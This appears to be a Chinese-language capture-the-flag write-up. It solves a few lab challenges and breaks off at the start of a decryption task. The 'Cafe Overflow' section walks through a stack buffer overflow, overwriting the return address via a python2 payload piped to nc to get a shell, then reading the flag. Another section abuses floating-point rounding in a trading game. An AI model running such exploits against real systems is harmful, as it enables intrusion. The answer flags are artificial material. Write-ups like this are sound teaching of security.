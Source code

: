 ```
%26givemeflag=yes%23{true
```
flag如下:
>FLAG{owo_ch1wawa_15_th3_b35t_uwu!!!}
## Cafe Overflow
### 解法:
首先用file指令檢查執行檔的類型確定是ELF 64-bit LSB executable，可在linux執行
之後使用gdb-peda執行CafeOverflow
先用checksec指令確認保護機制，發現沒有開PIE，可以直接輸入位址
利用info function找到main函數並用disas main查看
找到了scanf這個有buffer overflow漏洞的函數
```
0x000000000040124c <+134>:	call   0x401070 <__isoc99_scanf@plt>
```
然後找一下stack的大小是多少，發現到呼叫scanf為止只有-16，所以大小為16
```
0x00000000004011ca <+4>:	sub    rsp,0x10
```
stack的大小16byte加上rbp的大小8byte之後下面就是return address
接著來研究return address要蓋成多少，有沒有現成的東西可以用
查看func1後發現裡面有呼叫system函數，可以
```
0x00000000004011a8 <+50>:	call   0x401040 <system@plt>
```
於是使用python2的-c幫助輸出hex value，並串上cat來讓接下來可以模仿terminal做輸入，最後把輸出的hex value利用pipe餵給nc連到的網址
```
(python2 -c "print('A'*24 + '\x95\x11\x40\x00\x00\x00\x00\x00')";cat ) | 
nc hw00.zoolab.org 65534
```
輸入後跳出here you go，使用find指令找尋flag的檔案，再用cat開啟取得flag
![](https://i.imgur.com/17nSkb6.png)
flag如下:
>flag{c0ffee_0verfl0win6_from_k3ttle_QAQ}

## The Floating Aquamarine
### 解法:
題目的重點是要透過買賣stone讓balance >= RICH，也就是balance >= 3000
一開始以為可以透過overflow或underflow來讓balance的值從負的轉正，很開心寫了個程式爆搜，搜了半天都找不到覺得怪怪的
後來才想到浮點數有精準度誤差的問題，開始輸一些很大的數字測試
測一側發現買99999999再賣99999998之後，balance會歸零，就有多的一個stone可以拿去賣，可以使balance變正的
這代表99999999與99999998的浮點數表示因為誤差的關係是一樣的
但是輸入有限制是13次，賺一次的流程為買1次賣2次共三次，也就是4次就要完成，1次要賺750以上
往下慢慢找發現99999999與99999989的表示也一樣，10個stone為888.8元符合條件
重複4次成功讓balance >= RICH，拿到flag
flag如下:
>FLAG{floating_point_error_https://0.30000000000000004.com/}
## 解密一下
### 解法:
首先打開encrypt.py，看到了一堆中文???
先把中文全部改回英文以便看懂code(為了避免看不到將一些code換行)
```python
#!/usr/bin/env python3
import time
import random
from typing import List
from io import BufferedReader
from forbiddenfruit import curse


```